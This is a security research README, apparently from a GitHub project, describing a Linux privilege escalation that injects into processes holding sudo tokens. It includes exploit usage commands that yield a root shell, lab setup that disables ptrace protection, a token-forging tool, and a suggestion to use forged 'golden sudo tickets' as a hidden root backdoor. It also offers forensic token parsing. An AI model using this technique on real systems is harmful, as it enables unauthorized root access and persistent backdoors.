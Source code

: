 # [Linux] Privilege Escalation by injecting process posseding sudo tokens.

#### Inject process that have valid sudo token and activate our own sudo token.

## Introduction

We all noticed that sometimes sudo doesn't ask us for a password because he remembers us. How does he remember us and how does he identify us, can we falsify our identity and become *root*?
As far as I know this research is not yet documented, but let me know if it is.
Indeed sudo creates a file for each linux user in /var/run/sudo/ts/[username].
These files contain both successful and failed authentications, then sudo uses these files to remember the authenticated processes. -- [@chaignc][]

This repository provides you:
* A way to gain root privilege by abusing sudo tokens (Don't be too happy there are requirements).
* A tool to forge sudo tokens for a given process. (write_sudo_token in ./extra_tools/).
* A tool to parse sudo tokens for forensic. (read_sudo_token_forensic and read_sudo_token in ./extra_tools). 
* A technique to transform any root arbitrary file write into stable root code execution.  


## How to exploit a vulnerable system
PS: read requirements!!
```sh
$ sudo whatever
[sudo] password for user:    # Press <ctrl>+c since you don't have the password. # This creates an invalid sudo tokens.
$ ./exploit.sh # This activates our sudo token.
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Requirements
* Ptrace fully enabled (cat /proc/sys/kernel/yama/ptrace_scope == 0).
* Current user must have living process that has a valid sudo token with the same uid.

```
The default password timeout is 15 minutes. So if you use sudo twice in 15 minutes (900 seconds), you will not be asked to type the user’s password again.
```

## What's happening behind the scene



*exploit.sh* is barely tree lines of shell, 

## Usecase

This is far from a generic privesc without requirements but it works, for instance if you have a RCE and don't have the user password but the user uses sudo then you can easily get root by stealing his token.

## How to simulate in lab?

```sh
# echo 0 > /proc/sys/kernel/yama/ptrace_scope
# # Don't worry this is persistent accross reboot
```
Start two terminals:
* one to type sudo and enter the right password (example: sudo ls).
* one to start the exploit as described above.

## Going further

### Forensic, DFIR ?

Printing to be improved but each process sudo attempt has one entry in /var/run/sudo/ts/[username]
```sh
./read_sudo_token_forensic  < /var/run/sudo/ts/user
version, flags, uid, sid, starttime_sec, starttime_nsec
2, 0, 0, 0, 0, 0
2, 0, 1001, 1145, 188, 660000000
2, 0, 1001, 24878, 7461, 490000000
2, 0, 1001, 24578, 6974, 10000000
```

### Arbitrary write to root

If you have an abitrary write you can create a sudo token for you current process to gain root code execution.
checkout './write_sudo_token $$ > /var/run/sudo/ts/[username]' in extra_tools,

### Golden sudo tickets

A very good way to create a secret root backdoor on servers that rarely reboots.
Not done yet but checkout './write_sudo_token $$' in ./extra_tools

### Why

I was looking for a way to steal dead process sudo token, but it doesn't look possible because they are associated by ((process start time and process session id) or (tty start time and tty session id)), and everything can be impressionnated except the start times which are relative to system boot time.

----
By [@chaignc][] [#HexpressoTeam][hexpresso].


[hexpresso]:     https://hexpresso.github.io
[@chaignc]:    https://twitter.com/chaignc
